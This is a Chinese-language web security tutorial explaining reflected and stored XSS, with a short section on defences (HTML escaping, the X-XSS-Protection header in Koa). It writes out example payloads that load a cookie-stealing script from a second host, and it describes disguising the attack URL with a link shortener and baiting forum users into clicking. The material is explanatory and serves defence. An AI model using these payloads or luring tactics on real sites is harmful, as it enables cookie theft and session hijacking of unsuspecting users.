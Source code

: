 ```yaml
---
title: 常见web攻击
tags: []
categories: [web安全]
date: 2022-02-08 09:34:35
---
```


## 1. XSS

XSS，全称Cross-Site Scripting，跨站脚本攻击。通过在有安全漏洞的Web网站的注册用户的浏览器内运行非法的非本站点HTML标签或JavaScript进行的一种攻击。

XSS攻击可能造成的危害：

- 获取网站的数据
- 获取Cookies
- 劫持前端逻辑
- 发送虚假请求
- 偷取用户的资料
- 偷取用户的秘密和登录态
- 欺骗用户

### XSS攻击分类

- 反射型XSS攻击（url参数直接注入）

实现过程：

1. alert尝试（看该网站是否有xss漏洞）
2. 构造攻击url
3. 短域名伪造（通过短域名生成网站把上面构造的xss攻击url转换成看似正常的url）
4. 把构造好的url放到贴吧、论坛或微博等网站，加上诱惑性的语言描述，吸引用户点击（这一步很关键，因为只有用户点击了该url链接，才可能造成攻击）

例如：

```js
// 正常url
http://localhost:3000/?from=china

// 1. alert尝试
http://localhost:3000/?from=<script>alert(3)</script>

// 2. 构造攻击url：hack.js实现获取Cookie
http://localhost:3000/?from=<script src="http://localhost:4000/hack.js"></script>

// 3. 短域名伪造：通过百度短网址网站（https://dwz.cn/）缩短url 
// 4. 把构造好的url放到贴吧
```

- 存储型 - 存储到数据库后读取时攻击

实现过程：

1. alert尝试（看该网站是否有xss漏洞）
2. 构造攻击脚本
3. 把攻击脚本注入网站数据库
4. 其他用户访问该网页时完成攻击

例如：

```js

// 1. alert尝试
// 在有评论功能的网站发送如下评论，如果能弹出alert提示说明存在漏洞
<script>alert(1)</script>

// 2. 构造攻击脚本：hack.js实现获取Cookie
我来了<script src="http://localhost:4000/hack.js"></script>

// 3. 把攻击脚本注入网站数据库：通过发评论实现
// 4. 其他用户访问该网页时完成攻击
```

### XSS攻击防范手段

- html转义（模板引擎和框架一般都自带html转义功能）
- 通过设置响应标头实现xss过滤（可以拦截xss脚本，但伪装一下就拦截不了了）

例如koa框架：

```js
ctx.set('X-XSS-Protection', 0) //0 关闭XSS过滤，1 启用xss过滤（浏览器默认值）
// http://localhost:3000/?from=<script>alert(3)</script> 可以拦截 但伪装一下就不行了
```
